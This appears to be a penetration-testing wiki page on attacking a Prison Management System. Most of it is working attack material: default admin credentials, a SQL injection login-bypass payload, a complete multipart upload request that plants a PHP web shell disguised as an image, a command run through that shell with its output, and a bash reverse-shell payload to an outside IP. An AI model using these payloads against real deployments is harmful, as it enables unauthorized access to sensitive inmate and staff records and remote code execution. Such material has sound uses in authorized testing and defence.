

---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---

# Prison Management System

The Prison Management System (PMS) is a software platform designed to digitally handle administrative and operational tasks within a correctional facility. It typically includes modules for managing inmate records, sentence durations, parole eligibility, visitation schedules, and internal communications. The system often centralizes data for staff to monitor prisoner activities, manage cell allocations, and track behavioral reports or disciplinary actions. In many implementations, PMS also integrates with biometric systems, surveillance feeds, and external law enforcement databases to ensure identity verification and real-time data sharing.

From a red team or pentest perspective, a PMS is a critical infrastructure asset that may contain highly sensitive data such as personal details of inmates, confidential reports, staff information, or evidence logs. These systems are usually web-based or hosted within restricted networks, but misconfigurations—such as exposed admin panels, lack of access control, or unpatched CMS components—can offer significant attack surface.

## Default Credentials

```bash
admin:admin123
```

## SQLi Authentication Bypass

Default installations of PMS running under environments like XAMPP on Windows are vulnerable to an **authentication bypass via SQLi** on the login interface of the Admin Dashboard ([CVE-2024-33288](https://www.exploit-db.com/exploits/52017)). The root cause lies in the backend PHP code failing to properly sanitize user inputs before incorporating them into a SQL query. Specifically, the `username` parameter is directly concatenated into the SQL statement without using prepared statements or escaping, making it possible to inject arbitrary SQL logic.

An attacker can exploit this by submitting a specially crafted username such as `admin' or '1'='1` with any password. This input causes the backend SQL query to always evaluate as true, effectively bypassing authentication and granting administrative access to the system. Once authenticated, the attacker gains access to sensitive administrative functions, including inmate data, staff records, and operational logs.

```sql
# Payload
admin' or '1'='1
```

<figure><figcaption></figcaption></figure>

## File Upload to RCE

PMS version `1.0` is affected by a file upload vulnerability ([CVE-2024-48594](https://app.gitbook.com/o/asuXdppEfmgK9Dr478w0/s/mjLkek16kB60c2WFd5lf/)). This flaw allows a remote attacker to execute arbitrary code by uploading malicious files through the system’s file upload functionality. Due to insufficient validation and filtering of uploaded files, attackers can bypass restrictions and introduce executable payloads such as web shells.

```shell
# Request to POST /Admin/add-admin.php HTTP/1.1
------WebKitFormBoundaryyCVxsS8itKVeQYh3
Content-Disposition: form-data; name="txtusername"
​
test2
------WebKitFormBoundaryyCVxsS8itKVeQYh3
Content-Disposition: form-data; name="txtfullname"
​
test
------WebKitFormBoundaryyCVxsS8itKVeQYh3
Content-Disposition: form-data; name="txtpassword"
​
test
------WebKitFormBoundaryyCVxsS8itKVeQYh3
Content-Disposition: form-data; name="txtphone"
​
test
------WebKitFormBoundaryyCVxsS8itKVeQYh3
Content-Disposition: form-data; name="avatar"; filename="webshell.php"
Content-Type: image/png
​
<?php system($_GET['c']);?>
------WebKitFormBoundaryyCVxsS8itKVeQYh3
Content-Disposition: form-data; name="btncreate"
​
​
------WebKitFormBoundaryyCVxsS8itKVeQYh3--
```

System commands can then be executed and/or upgrade the webshell to a reverse shell:


```bash
$ curl --path-as-is -s -k -b 'PHPSESSID=cduqalcr0v5v9b8jh9fjkb0c32' 'https://pms-instance:9443/uploadImage/Profile/webshell.php?c=id'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
​
# Revshell payload (non URL-encoded)
?c=/usr/bin/bash -c 'bash -i >& /dev/tcp/192.168.45.170/80 0>&1' 
```

